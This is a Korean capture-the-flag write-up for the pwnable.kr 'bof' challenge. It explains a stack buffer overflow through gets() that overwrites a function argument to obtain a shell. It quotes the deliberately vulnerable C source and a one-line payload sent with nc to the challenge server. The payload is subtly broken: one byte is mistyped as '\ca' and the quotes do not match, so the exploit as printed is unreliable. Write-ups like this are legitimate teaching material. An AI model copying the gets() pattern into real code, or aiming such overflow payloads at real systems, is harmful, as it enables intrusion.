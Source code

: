 # bof
이 문제는 사용자로부터 유효값 검증없이 입력을 받아 overflow 취약점이 존재한다. key 라는 변수의 값에 0xcafebabe 값과 동일하게 맞춰줄 경우 플래그를 출력한다. < 소스코드 참조 >

gdb 로 디버깅 해보면 스택의 구조는 다음과 같다.
<center>| overflowme(32byte) | dummy(12byte) | sfp(4byte) | ret(4byte) | key(0xdeadbeef) |</center>

즉, 52byte 만큼 덮어쓰면, key 값을 변경할 수 있다.


```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

최종 페이로드는 아래와 같다.

* (python -c 'print "A"*52 + "\xbe\xba\xfe\ca""') | nc pwnable.kr 9000